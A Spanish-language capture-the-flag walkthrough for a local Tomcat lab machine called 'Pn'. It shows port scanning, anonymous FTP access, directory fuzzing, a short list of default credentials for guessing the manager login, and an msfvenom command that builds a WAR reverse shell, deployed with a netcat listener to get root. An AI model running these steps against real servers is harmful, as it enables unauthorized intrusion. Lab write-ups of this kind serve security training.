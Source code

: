 - Tags: #-Pn
---
[Maquina Pn](https://mega.nz/file/tS9GUawC#-b8ooIl3HEIFfEUkNRH6uA26OGJnUCQEHPSC9LBuw9w) -> Laboratorio donde se accederá con unas credenciales al panel interno de Tomcat, para después hacer intrusión al servidor.

```bash
7z x Pn.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh pn.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target.
```

```bash
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conectividad con el target
```

```bash
wichSystem.py 172.17.0.2 # Gracias al ttl determinamos que estamos ante una maquina linux.
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos y Servicios:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-65000 # Deteccion de puetos mediante TCP
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

```bash
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

```bash
# Realizamos un escaneo exhaustivo para determinar la version y los servicios que corren detras de estos puertos.
nmap -sC -sV -p21,8080 172.17.0.2 -oN targeted
```

### Fase Enumeracion Servicio FTP:
```bash
21/tcp   open  ftp     vsftpd 3.0.5 # Tenemos este servico expuesto
```

```bash
# Lanzamos un script de reconocimiento para el usuario ( anonymous )
nmap --script ftp-anon.nse -p 21 172.17.0.2 

# Tenemos habilitado este usuario por lo cual nos podremos conectar si proporcionar contrasena
ftp-anon: Anonymous FTP login allowed (FTP code 230)
-rw-r--r-- 1 0  0 74 Apr 19  2024 tomcat.txt # Tenemos capacidad de lectura sobre este archivo
```

```bash
ftp 172.17.0.2 # Nos conectamos.

Name (172.17.0.2): anonymous
```

```bash
ftp> get tomcat.txt # Nos descargamos este archivo
```

**Mensaje:** Hello tomcat, can you configure the tomcat server? I lost the password.
Al paracer no cuentan con contrasena y el usuario **tomcat** es el responsble de configurar el servidor

### Fase Enumeracion Web:
**Tomcat** -> Es un contenedor de servlets Java de código abierto, también conocido como servidor de aplicaciones, que sirve para ejecutar aplicaciones web basadas en Java. En esencia, es un software que facilita la compilación y ejecución de aplicaciones Java, incluyendo servlets y páginas JSP (Java Server Pages)
La **versión 9.0.88** de Apache Tomcat puede ser vulnerable a algunas vulnerabilidades de seguridad. Aunque no es una versión directamente vulnerable a la última gran vulnerabilidad (CVE-2025-24813),
```bash
whatweb http://172.17.0.2:8080/ # No reporta nada critico
```

```bash
nmap --script http-enum -p 8080 172.17.0.2 # Lanzamos un script para reconocer rutas.

# Resultado.
/manager/html/upload: Apache Tomcat (401 )
/manager/html: Apache Tomcat (401 )
```

```bash
# Realizamos Fuzzing de rutas en el servidor.
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash

/manager/             (Status: 302) [Size: 0] [--> /manager/html] # Resultado
```

```bash
# Realizamos Fuzzin de extensiones
gobuster dir -u http://172.17.0.2:8080/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,html,js,txt,php.back

# Resultado
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/RELEASE-NOTES.txt    (Status: 200) [Size: 6901]
```

[Tomcat Hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html?highlight=tomcat%20credential#default-credentials) -> En esta web no indica como explotar el panel de autentificacion de **tomcat**
```bash
http://172.17.0.2:8080/manager/html # Panel de inicio de sesion
```

Crearemos un diccionario corto de usuarios tipicos para **Tomcat**
```bash
- admin:admin
- tomcat:tomcat
- admin:
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat
```

```bash
tomcat:s3cr3t # Con estas logramos acceder al panel de administracion.
```

### Fase Explotacion:
En la web nos indica que podemos derivarlo a una ejecucion remota de comandos **RCE** ## [RCE](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html?highlight=tomcat%20credential#rce) Si tiene acceso al Administrador de aplicaciones web de Tomcat, puede **cargar e implementar un archivo .war (código de ejecución**).
```bash
# Nos crearemos una revershell para ganar acceso
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LPORT> -f war -o revshell.war

revshell.war # Se creara este archivo
```

```bash
nc -nlvp 443 # Nos ponemos en escucha.
```

**Nota** -> ( Archivo war a desplegar ) aqui podremos cargar el **( revshell.war )**
**( Aplicaciones )** -> Aqui tendra que estar cargado nuestro archivo malicioso, Si le damos clic se ejecutara este archivo cargandonos una **reversShell** a nuestra maquina de atacante como **root**
